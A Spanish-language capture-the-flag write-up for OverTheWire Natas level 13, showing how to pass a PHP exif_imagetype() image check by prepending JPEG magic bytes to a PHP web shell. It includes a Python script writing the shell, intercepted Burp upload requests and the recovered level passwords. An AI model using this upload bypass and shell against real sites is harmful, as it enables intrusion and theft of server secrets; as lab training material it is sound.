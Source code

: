 #Natas Level 12 → Level 13

Username: natas13

URL:      http://natas13.natas.labs.overthewire.org

##Write Up Iker

Abrimos un navegador y nos conectamos a la página: 

- **URL        : http://natas13.natas.labs.overthewire.org** 
- **Usuario    : natas13**
- **Contraseña : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY**

La contraseña la hemos sacado del nivel anterior.

Accedemos a la página y nos muestra un mensaje parecido a la prueba anterior indicando que solamente podemos subir ficheros **JPG** 

```html
For security reasons, we now only accept image files!
Choose a JPEG to upload (max 1KB):
```

Vamos a ver si ha cambiado el código fuente desde la prueba anterior.

```php
<?
...
if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded"; 
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
...
```

En principio todas las demás funciones son iguales menos una parte del código de arriba que comprueba si el fichero subido es un fichero **JPG**

```php
...
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) 
{ 
        echo "File is not an image"; 
}
...
```

Bueno, en este caso tenemos que **engañar** a la función **exif_imagetype()** para que acepte el **phpShell.php** como imagen.

¿Y como hacemos eso?

Primero que nada vamos a ver que hace exactamente la funcion **exif_imagetype()**

Vamos a la página oficial de [PHP](http://php.net/docs.php) y miramos la documentación para la función [exif_imagetype](http://php.net/manual/es/function.exif-imagetype.php)

Leemos la documentación y parece que solamente **lee** los **primeros bytes** del fichero para determinar de que tipo es.

```php
exif_imagetype

(PHP 4 >= 4.3.0, PHP 5, PHP 7)
exif_imagetype — Determinar el tipo de una imagen

Descripción 

int exif_imagetype ( string $filename )
exif_imagetype() lee los primeros bytes de una imagen y comprueba su firma.
```

Ahora la pregunta es:
- ¿Cómo **cambiamos** los **primeros bytes** del fichero **phpShell.php** para que sea un **JPG**? 
- ¿Cómo sabemos que **parametro** tenemos que escribir en los **primeros bytes** del fichero para que el **fichero.php** parezca un **JPG**?

Vamos por partes. Primero tenemos que saber como identifica la función **exif_imagetype()** que un fichero es de un tipo u otro leyendo lo **primeros bytes**. 

Buscamos en **Google** acerca de los primeros bytes de los ficheros y nos encontramos con una web [Magic Numbers](https://en.wikipedia.org/wiki/List_of_file_signatures) que nos hablan de los **primero bytes** de distintos ficheros (JPG,PNG,ZIP,...) que al parecer se llaman **MAGIC NUMBERS**

A nosotros nos interesa el valor del fichero **JPG**

```html
jpeg	JPEG raw or in the JFIF or Exif file format	0	

Primero Bytes -> FF D8 FF E0  
Contenido ->nn nn 
Últimos bytes -> 4A 46 49 46 00 01

```

Por lo tanto  tenemos que cambiar los **primeros bytes** del fichero **phpShell.php** a:

```hex
FFD8 FFE0
```

Podemos utilizar un **Editor Hexadecimal** para cambiarle los primeros bytes o hacer un **Script** en **Python** que nos ayude a escribir eso bytes en el fichero.

El script en **Python** es bastante sencillo de hacer, por lo que lo hacemos así :smile:

Le llamamos **phpShellPython.py** 

```python
fichero = open('phpShell.php','w')  
fichero.write('\xFF\xD8\xFF\xE0' + '<? passthru("cat /etc/natas_webpass/natas14"); ?>')  
fichero.close()
```

- 1 Abrimos el fichero **phpShell.php** en modo **escritura**
- 2 Escribimos los **primeros bytes** -> **FFD8** al fichero
- 3 Seguimos escribiendo nuestro código para que nos devuelva la contraseña
    - ```php <? passthru("cat /etc/natas_webpass/natas14"); ?> ``` 
- 4 Cerramos el fichero
    
Abrimos el editor **nano** y escribimos el código. A continuación lanzamos el script con el comando:

```bash
python phpShellPython.py
```

Bueno ya tenemos el fichero **phpShell.php** recién salido del horno con los **primeros bytes** escritos con el valor **FFD8 FFE0** y ahora solo nos queda realizar las mismas acciones que en la prueba anterior. 

Configuramos el **Proxy** a **localhost:8080** en el navegador y arrancamos el **BURP** para interceptar el tráfico que enviamos y poder modificarlo posteriormente y saltarnos los controles de acceso.

POST /index.php HTTP/1.1
Host: natas13.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas13.natas.labs.overthewire.org/
Authorization: Basic bmF0YXMxMzpqbUxUWTBxaVBaQmJhS2M5MzQxY3FQUVpCSnY3TVFiWQ==
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------453852881298197434201962635
Content-Length: 531

-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="filename"

phvidqtoy7.jpg
-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="uploadedfile"; filename="phpShell.php"
Content-Type: application/x-php

ÿØÿà<? passthru("cat /etc/natas_webpass/natas14"); ?>
-----------------------------453852881298197434201962635--




POST /index.php HTTP/1.1
Host: natas13.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://natas13.natas.labs.overthewire.org/
Authorization: Basic bmF0YXMxMzpqbUxUWTBxaVBaQmJhS2M5MzQxY3FQUVpCSnY3TVFiWQ==
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------453852881298197434201962635
Content-Length: 531

-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="MAX_FILE_SIZE"

1000
-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="filename"

phvidqtoy7.jpg
-----------------------------453852881298197434201962635
Content-Disposition: form-data; name="uploadedfile"; filename="phpShell.php"
Content-Type: application/x-php

ÿØÿà<? passthru("cat /etc/natas_webpass/natas14"); ?>
-----------------------------4538528812981974342




The file upload/7nu704t5gn.php has been uploaded


http://natas13.natas.labs.overthewire.org/upload/7nu704t5gn.php

ÿØÿàLg96M10TdfaPyVBkJdjymbllQ5L6qdl1








 












 




